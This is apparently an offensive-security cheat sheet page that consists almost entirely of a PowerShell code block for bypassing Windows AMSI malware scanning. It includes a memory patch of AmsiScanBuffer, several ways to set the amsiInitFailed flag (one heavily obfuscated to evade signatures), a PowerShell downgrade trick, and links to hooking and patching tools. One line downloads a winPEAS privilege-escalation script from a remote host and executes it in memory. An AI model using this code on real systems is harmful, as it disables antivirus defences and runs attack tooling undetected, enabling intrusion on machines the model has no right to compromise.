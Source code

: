 ```powershell

$LoadLibrary = [Win32]::LoadLibrary("amsi.dll")
$Address = [Win32]::GetProcAddress($LoadLibrary, "AmsiScanBuffer")
$p = 0
[Win32]::VirtualProtect($Address, [uint32]5, 0x40, [ref]$p)
$Patch = [Byte[]] (0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3)
[System.Runtime.InteropServices.Marshal]::Copy($Patch, 0, $Address, 6)


# After issuing that on the PS console, we can run PS scripts without touching disk
IEX(new-object system.net.webclient).downloadstring('http://192.168.56.1:8080/Invoke-winPEAS.ps1')


################ HOW TO BYPASS AMSI
# PowerShell downgrade
PS > powershell -version 2
# amsiInitFailed - another way to prevent scanning is to set the amsiInitFailed flag for the current process
$w = 'System.Management.Automation.A';$c = 'si';$m = 'Utils'
$assembly = [Ref].Assembly.GetType(('{0}m{1}{2}' -f $w,$c,$m))
$field = $assembly.GetField(('am{0}InitFailed' -f $c),'NonPublic,Static')
$field.SetValue($null,$true)
# More alternatives to amsiInitFailed
[Ref].Assembly.GetType('System.Management.Automation.'+$([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('QQBtAHMAaQBVAHQAaQBsAHMA')))).GetField($([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('YQBtAHMAaQBJAG4AaQB0AEYAYQBpAGwAZQBkAA=='))),'NonPublic,Static').SetValue($null,$true)
$kurefii="$([cHar]([BYTe]0x53)+[ChAR](121)+[CHAr]([Byte]0x73)+[cHaR]([byte]0x74)+[Char]([bytE]0x65)+[chAR]([bYtE]0x6d)).$(('Mànägem'+'ent').NORMALiZE([cHar](70+50-50)+[ChAr](111*34/34)+[cHAr](114*7/7)+[CHar](109*71/71)+[chaR]([BYtE]0x44)) -replace [cHaR]([BYte]0x5c)+[cHar]([Byte]0x70)+[chaR]([byTE]0x7b)+[chaR](77+22-22)+[cHAr]([BytE]0x6e)+[cHaR]([BYte]0x7d)).$([chAr](65+59-59)+[ChaR](104+13)+[CHAr]([bytE]0x74)+[chAR]([byte]0x6f)+[chAr](58+51)+[ChaR]([bYTe]0x61)+[CHar]([bYTe]0x74)+[cHAR](105)+[CHaR]([BYTE]0x6f)+[cHar]([ByTE]0x6e)).$([CHAR]([ByTE]0x41)+[char]([byTe]0x6d)+[CHAr]([bYtE]0x73)+[CHar]([byTe]0x69)+[chaR](85*6/6)+[CHaR](116)+[ChAR]([Byte]0x69)+[cHAr](108)+[chAr]([BYte]0x73))";[Delegate]::CreateDelegate(("Func``3[String, $(([String].Assembly.GetType($(('$([cHar]([BYTe]0x53)+[ChAR](121)+[CHAr]([Byte]0x73)+[cHaR]([byte]0x74)+[Char]([bytE]0x65)+[chAR]([bYtE]0x6d)).Reflec'+'tíón.BìndìngF'+'lâgs').NorMALiZe([ChAR]([Byte]0x46)+[cHar](111)+[ChAR](114)+[CHar]([BYtE]0x6d)+[ChaR]([ByTE]0x44)) -replace [cHaR](92*10/10)+[CHAr](112+100-100)+[ChAR]([BYTE]0x7b)+[ChAR](77)+[cHaR](110*20/20)+[cHAr]([bYTe]0x7d)))).FullName), $([cHar]([BYTe]0x53)+[ChAR](121)+[CHAr]([Byte]0x73)+[cHaR]([byte]0x74)+[Char]([bytE]0x65)+[chAR]([bYtE]0x6d)).Reflection.FieldInfo]" -as [String].Assembly.GetType($([CHAR](83)+[char](121*78/78)+[ChAr]([ByTe]0x73)+[CHar](22+94)+[CHar](101*28/28)+[char]([BYtE]0x6d)+[CHAr](46)+[ChAr](84)+[cHAr]([ByTE]0x79)+[ChAr](90+22)+[Char](101+30-30)))), [Object]([Ref].Assembly.GetType($kurefii)),($(('Ge'+'tF'+'íe'+'ld').NOrMaliZE([char]([ByTE]0x46)+[cHAR](10+101)+[CHaR](114)+[cHAr](109*93/93)+[CHAr]([BYTe]0x44)) -replace [cHaR](92*52/52)+[CHar]([ByTE]0x70)+[CHAr]([byTe]0x7b)+[Char](38+39)+[cHaR](79+31)+[cHar](125*18/18)))).Invoke($([char](97*42/42)+[cHar](109*37/37)+[cHar]([bYte]0x73)+[Char](105+88-88)+[CHaR]([BYtE]0x49)+[ChAR](110)+[cHAR]([Byte]0x69)+[CHaR](116*14/14)+[cHar]([bYtE]0x46)+[Char](97)+[cHar]([bYTe]0x69)+[CHAR]([ByTE]0x6c)+[CHaR](101*33/33)+[char]([BYTE]0x64)),(("NonPublic,Static") -as [String].Assembly.GetType($(('$([cHar]([BYTe]0x53)+[ChAR](121)+[CHAr]([Byte]0x73)+[cHaR]([byte]0x74)+[Char]([bytE]0x65)+[chAR]([bYtE]0x6d)).Reflec'+'tíón.BìndìngF'+'lâgs').NorMALiZe([ChAR]([Byte]0x46)+[cHar](111)+[ChAR](114)+[CHar]([BYtE]0x6d)+[ChaR]([ByTE]0x44)) -replace [cHaR](92*10/10)+[CHAr](112+100-100)+[ChAR]([BYTE]0x7b)+[ChAR](77)+[cHaR](110*20/20)+[cHAr]([bYTe]0x7d))))).SetValue($null,$True);
# Hooking
https://github.com/tomcarver16/AmsiHook
SimpleInjector.exe powershell.exe injected.dll
# Memory patching
https://github.com/rasta-mouse/AmsiScanBufferBypass
https://gist.github.com/FatRodzianko/c8a76537b5a87b850c7d158728717998
https://github.com/med0x2e/NoAmci
```
{% endcode %}
